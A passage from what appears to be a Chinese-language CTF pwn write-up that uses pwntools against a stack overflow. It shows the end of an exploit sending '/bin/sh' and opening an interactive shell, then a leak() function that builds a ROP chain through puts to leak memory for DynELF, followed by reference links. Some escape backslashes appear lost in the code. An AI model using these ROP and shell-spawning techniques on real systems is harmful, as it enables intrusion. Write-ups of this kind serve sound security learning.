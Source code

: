 ```
p.send(payload)
p.send("/bin/shx00")
p.interactive()
```

由于该题目程序中也包含puts函数，故我们也可以用puts函数来实现leak，代码如下。

```
def leak(address):
  count = 0
  data = ''
  print p.recv(1024)
  payload = "A" * 24
  payload += p64(popr12r13r14r15)
  payload += p64(poprdi) + p64(address)
  payload += p64(putsplt)
  payload += p64(startAddress)
  payload = payload.ljust(1020, "B")
  p.send(payload)
  #由于echo函数最后会输出复制过去的字符串，而该字符串是popr12r13r14r15，故我们可以将该gadget的地址作为判断输出结束的依据
  print p.recvuntil("x9cx08x40") 
  up = ""
  while True:
    c = p.recv(1)
    count += 1
    if up == 'n' and c == "W": #下一轮输出的首字母就是“Welcome”中的“W”
      data = data[:-1]
      data += "x00"
      break
    else:
      data += c
    up = c
  data = data[:4]
  print "%#x =&gt; %s" % (address, (data or '').encode('hex'))
  return data
```



**参考文章**

****

[Pwntools中的DynELF模块的使用](http://klaus.link/2016/Python-Pwntools-DynELF%E6%A8%A1%E5%9D%97%E7%9A%84%E4%BD%BF%E7%94%A8/)

[Finding Function's Load Address](http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html)

[ __libc_csu_init函数的通用gadget](http://www.cnblogs.com/Ox9A82/p/5487725.html)

   

** 附件**

题目打包下载：[http://pan.baidu.com/s/1qXA9JXi](http://pan.baidu.com/s/1qXA9JXi)

<br style="text-align: left">
